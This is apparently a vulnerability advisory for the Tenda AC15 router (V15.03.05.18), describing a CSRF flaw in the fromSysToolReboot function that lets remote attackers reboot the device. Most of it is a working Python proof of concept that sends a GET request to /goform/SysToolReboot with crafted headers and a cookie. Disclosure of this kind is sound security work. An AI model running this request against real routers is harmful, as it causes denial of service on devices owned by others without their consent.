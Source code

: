 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolReboot` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240308165955719](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165955719.png)

![image-20240308170203962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170203962.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolReboot"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yrhsd',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)

print(response.text)
```

![image-20240314230435220](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314230435220.png)